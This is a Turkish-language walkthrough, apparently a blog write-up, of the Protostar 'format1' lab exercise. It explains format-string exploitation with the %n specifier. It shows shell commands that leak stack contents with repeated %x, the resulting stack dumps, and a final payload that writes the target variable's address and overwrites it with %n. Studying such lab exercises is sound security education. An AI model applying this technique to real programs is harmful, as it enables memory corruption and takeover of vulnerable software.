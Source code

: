 ```c

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
Burada target'ımız global olarak tanımlanmış. Önceki aşamada yazacağımız hedef bufferın hemen altındaydı ama bu sefer stackde baya aşağılara gideceğiz. Ayrıca hedefe spesific bir değer yazmamız istenmemiş bu yüzden değeri herhangi bir şey ile ezsek yeter. Burada devreye `%n` format spesifierı giriyor. Bu format spesifier kendisine gelinene kadar yazılan verinin uzunluğunu alıp stackden çekilen adrese gidip yazıyor. (bu zaten videoda da anlatılmıştı, izlemediyseniz gidin izleyin :D)
Yani biz stack'e hedef adresi(yani target değişkeninin adresini) yazar ve oraya geldiğimiz noktada verdiğimiz inputta %n koyarsak ne olur? O ana kadar yazılan verinin uzunluğunu stacke yerleştirmiş olduğumuz adrese gidip yazar. E stack'e bu adresi nasıl yazcaz? Verdiğimiz input zaten stacke yazıldığı için argümanın içerisinde yollayacağız. (baya karışık anlattım :/) Mesela:

```bash
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA' + 'BBBB' + '%x '*200"`"
AAAABBBB804960c bffff498 8048469 b7fd8304 b7fd7ff4 bffff498 8048435 bffff681 b7ff1040 804845b b7fd7ff4 8048450 0 bffff518 b7eadc76 2 bffff544 bffff550 b7fe1848 bffff500 ffffffff b7ffeff4 804824d 1 bffff500 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff518 8a739bd5 a022adc5 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff544 8048450 8048440 b7ff1040 bffff53c b7fff8f8 2 bffff677 bffff681 0 bffff8e2 bffff8f7 bffff90e bffff926 bffff934 bffff948 bffff96b bffff982 bffff995 bffff99f bffffe8f bffffea8 bffffee6 bffffefa bfffff18 bfffff2f bfffff40 bfffff5b bfffff63 bfffff73 bfffff80 bfffffb5 bfffffc9 bfffffdd bfffffe9 0 20 b7fe2414 21 b7fe2000 10 78bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff65b 1f bffffff2 f bffff66b 0 0 87000000 6d68a1b7 50553acd baff49aa 695f2ca6 363836 0 2e000000 726f662f 3174616d 41414100 42424241 20782542 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 
```
Şimdi ben 4 tane A 4 tane de B ve ardından da 200 tane %x verdiğimde (çıktı okunabilir olsun diye araya space ekledim) A'ları bastıktan sonra %x e gelindiğinde gitti stackden veri çekmeye başladı. dikkat ederseniz içerisinde 41 ve 42 ler var. Bunlar biizm verdiğimiz A ve B lerin hex karşılıkları. Şimdi bu B leri yani 42 leri sona denk getirmeye çalışalım. (Ben deneye deneye yaptım ancak pwntools ile de yapabilirsiniz. pwntools <3)
```bash
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA' + 'BBBB' + '%x '*139"`"
AAAABBBB804960c bffff548 8048469 b7fd8304 b7fd7ff4 bffff548 8048435 bffff738 b7ff1040 804845b b7fd7ff4 8048450 0 bffff5c8 b7eadc76 2 bffff5f4 bffff600 b7fe1848 bffff5b0 ffffffff b7ffeff4 804824d 1 bffff5b0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff5c8 7db457cc 57e681dc 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff5f4 8048450 8048440 b7ff1040 bffff5ec b7fff8f8 2 bffff72e bffff738 0 bffff8e2 bffff8f7 bffff90e bffff926 bffff934 bffff948 bffff96b bffff982 bffff995 bffff99f bffffe8f bffffea8 bffffee6 bffffefa bfffff18 bfffff2f bfffff40 bfffff5b bfffff63 bfffff73 bfffff80 bfffffb5 bfffffc9 bfffffdd bfffffe9 0 20 b7fe2414 21 b7fe2000 10 78bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff70b 1f bffffff2 f bffff71b 0 0 90000000 7bdbc4ae 9759c12f f64b26e9 69511c53 363836 0 0 0 2f2e0000 6d726f66 317461 41414141 42424242
```
Görüldüğü üzere son bölüme 42 leri denk getirdik. Bunların yerine hedef adresimizi yazarsak  ve onun olduğu aşamada da %n eklersek amacımıza ulaşmış oluruz.
```bash
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA' + '\x38\x96\x04\x08' + '%x '*138 + '%n '"`"
```